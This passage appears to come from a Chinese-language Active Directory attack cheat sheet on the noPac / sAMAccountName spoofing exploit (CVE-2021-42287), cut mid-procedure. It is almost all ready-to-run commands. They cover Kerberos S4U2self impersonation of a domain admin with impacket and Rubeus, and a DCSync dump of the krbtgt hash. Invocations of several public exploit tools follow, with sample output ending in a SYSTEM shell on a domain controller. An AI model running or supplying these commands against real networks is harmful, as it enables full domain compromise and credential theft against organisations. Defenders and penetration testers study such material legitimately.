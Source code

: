 ​        5.（CVE-2021-42287）通过出示之前获得的TGT，使用`S4U2self`请求服务票据
```ps1
# https://github.com/SecureAuthCorp/impacket/pull/1202
impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
```

​      6.DCSync操作：`KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'`

### 自动化利用:

* [cube0x0/noPac](https://github.com/cube0x0/noPac) - Windows
    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```
* [Ridter/noPac](https://github.com/Ridter/noPac) - Linux
  ```ps1
  python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0' -dc-ip 10.10.10.10 -use-ldap -dump
  ```
* [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
  
    ```ps1
    $ python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                
    [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       
    [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```
* [ly4k/Pachine](https://github.com/ly4k/Pachine)
    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate administrator 'domain.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache